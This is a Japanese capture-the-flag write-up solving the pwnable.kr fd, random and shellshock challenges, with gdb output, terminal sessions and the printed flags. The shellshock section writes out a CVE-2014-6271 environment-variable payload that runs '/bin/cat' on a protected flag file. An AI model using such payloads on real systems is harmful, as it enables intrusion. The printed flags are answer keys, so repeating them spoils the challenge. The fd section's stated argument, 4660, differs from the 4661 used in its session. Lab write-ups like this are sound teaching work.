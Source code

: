 # pwnable.kr writeup

Toddler's Bottleについてはwriteupが許可されているので、書く。

> 3. challenges in Toddler's Bottle are allowed to freely post the solutions online. However, please refrain from posting solution for challenges in other categories. But if you insist, post easy ones (solved by many people) and do not spoil too much details for the sake of fun.

## fd (1pt)

ソースコードを見ると、コマンドライン引数を1つ受け付けて、そこから0x1234を引いた数を変数fdに代入している。そしてこのfdをファイルディスクリプタとしてファイルを読み込み、そこに`LETMEWIN`と書かれていればflagが得られる。

ファイルディスクリプタは

- 0: stdin
- 1: stdout
- 2: stderr

という3つが既定で存在するから、`fd`に0を代入してやれば、標準入力の内容を読み込んでLETMEWINと比較させることができる。そのため、

1. コマンドライン引数に4660（0x1234）を指定して実行
2. 入力待ちになるので`LETMEWIN`と入力

すると、flagが得られる。

```txt
fd@pwnable:~$ ./fd 4661
LETMEWIN
good job :)
mommy! I think I know what a file descriptor is!!
```

なお、わかりづらいがflagは`flag.txt`の内容、つまりここでは`mommy! I think I know what a file descriptor is!!`である。

## random (1pt)

ソースコードを見ると`rand()`と入力のxorをとり、それが`0xdeadbeef`ならflagを表示するプログラムであるとわかる。

```c
#include <stdio.h>

int main(){
        unsigned int random;
        random = rand();        // random value!

        unsigned int key=0;
        scanf("%d", &key);

        if( (key ^ random) == 0xdeadbeef ){
                printf("Good!\n");
                system("/bin/cat flag");
                return 0;
        }

        printf("Wrong, maybe you should try 2^32 cases.\n");
        return 0;
}
```

実は`rand()`は毎回同じ値を返す（`srand()`でシード値を変えない限り）。そのため、実行ファイルを解析すれば`rand()`の値を知ることができる。

利便性を考えてローカル環境で解析する。`scp -P2222 random@pwnable.kr:random ./random`で実行ファイルをダウンロードし、gdbで`rand()`の直前まで実行し、`rand()`の出力を読み取る。

```txt
0x0000000000400606 in main ()
[ Legend: Modified register | Code | Heap | Stack | String ]
───────────────────────────────────────────────────────────────────────────────────────────────────────── registers ────
$rax   : 0x6b8b4567
$rbx   : 0x00007fffffffe068  →  0x00007fffffffe2f8  →  "/home/kali/random"
$rcx   : 0x00007ffff7fab208  →  0x6774a4cd16a5bce3
$rdx   : 0x0
$rsp   : 0x00007fffffffdf40  →  0x0000000000000000
$rbp   : 0x00007fffffffdf50  →  0x0000000000000001
$rsi   : 0x00007fffffffdf14  →  0x835a7e006b8b4567
$rdi   : 0x00007ffff7fab860  →  0x00007ffff7fab214  →  0x61048c054e508aaa
$rip   : 0x0000000000400606  →  <main+18> mov DWORD PTR [rbp-0x4], eax
$r8    : 0x00007ffff7fab214  →  0x61048c054e508aaa
$r9    : 0x00007ffff7fab280  →  0x0000000000000008
$r10   : 0x00007ffff7de9968  →  0x00100012000027b8
$r11   : 0x00007ffff7e18b10  →  <rand+0> sub rsp, 0x8
$r12   : 0x0
$r13   : 0x00007fffffffe078  →  0x00007fffffffe30a  →  "SHELL=/bin/bash"
$r14   : 0x0
$r15   : 0x00007ffff7ffd000  →  0x00007ffff7ffe2d0  →  0x0000000000000000
$eflags: [zero carry parity adjust sign trap INTERRUPT direction overflow resume virtualx86 identification]
$cs: 0x33 $ss: 0x2b $ds: 0x00 $es: 0x00 $fs: 0x00 $gs: 0x00
───────────────────────────────────────────────────────────────────────────────────────────────────────────── stack ────
0x00007fffffffdf40│+0x0000: 0x0000000000000000   ← $rsp
0x00007fffffffdf48│+0x0008: 0x00007ffff7ffdab0  →  0x00007ffff7fcb000  →  0x03010102464c457f
0x00007fffffffdf50│+0x0010: 0x0000000000000001   ← $rbp
0x00007fffffffdf58│+0x0018: 0x00007ffff7dff6ca  →  <__libc_start_call_main+122> mov edi, eax
0x00007fffffffdf60│+0x0020: 0x00007fffffffe050  →  0x00007fffffffe058  →  0x00007ffff7fc3160  →  0x00007ffff7dd8000  →  0x03010102464c457f
0x00007fffffffdf68│+0x0028: 0x00000000004005f4  →  <main+0> push rbp
0x00007fffffffdf70│+0x0030: 0x0000000100400040 ("@"?)
0x00007fffffffdf78│+0x0038: 0x00007fffffffe068  →  0x00007fffffffe2f8  →  "/home/kali/random"
─────────────────────────────────────────────────────────────────────────────────────────────────────── code:x86:64 ────
     0x4005f8 <main+4>         sub    rsp, 0x10
     0x4005fc <main+8>         mov    eax, 0x0
     0x400601 <main+13>        call   0x400500 <rand@plt>
 →   0x400606 <main+18>        mov    DWORD PTR [rbp-0x4], eax
     0x400609 <main+21>        mov    DWORD PTR [rbp-0x8], 0x0
     0x400610 <main+28>        mov    eax, 0x400760
     0x400615 <main+33>        lea    rdx, [rbp-0x8]
     0x400619 <main+37>        mov    rsi, rdx
     0x40061c <main+40>        mov    rdi, rax
─────────────────────────────────────────────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "random", stopped 0x400606 in main (), reason: SINGLE STEP
───────────────────────────────────────────────────────────────────────────────────────────────────────────── trace ────
[#0] 0x400606 → main()
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
gef➤  p $eax
$2 = 0x6b8b4567
```

これより`rand()`が0x6b8b4567を返すことがわかった。  
0x6b8b4567 ^ input = 0xdeadbeef より、input = 0xb526fb88 = 3039230856であるから、3039230856を入力すればflagが得られる。

```terminal
random@pwnable:~$ ./random
3039230856
Good!
Mommy, I thought libc random is unpredictable...
```

## shellshock (1pt)

shellshockという脆弱性を用いる問題。念の為bashのバージョンを確認してみると、脆弱性の影響を受けるバージョンであった。

```terminal
shellshock@pwnable:~$ ./bash --version
./bash --version
GNU bash, version 4.2.25(1)-release (x86_64-pc-linux-gnu)
Copyright (C) 2011 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>

This is free software; you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.
```

エクスプロイトの例が書かれていたため使ってみる。参考：<https://nikhilh20.medium.com/exploit-bash-shellshock-part-1-ad1636acaf9e>  
`env x='() { :;}; echo Oh No!' ./bash -c "echo Testing!"`というコマンドを実行すると、脆弱性のあるバージョンのみ`echo Oh No!`も実行されてしまう。

```terminal
shellshock@pwnable:~$ env x='() { :;}; echo Oh No!' ./bash -c "echo Testing!"
Oh No!
Testing!
```

このエクスプロイトコードを書き換え、実行可能ファイル`shellshock`に適用してやれば、root権限で任意のコマンドが実行可能となる。これを利用してflagが手に入る。

```terminal
shellshock@pwnable:~$ env x='() { :;}; /bin/cat /home/shellshock/flag' ./shellshock
only if I knew CVE-2014-6271 ten years ago..!!
Segmentation fault (core dumped)
```
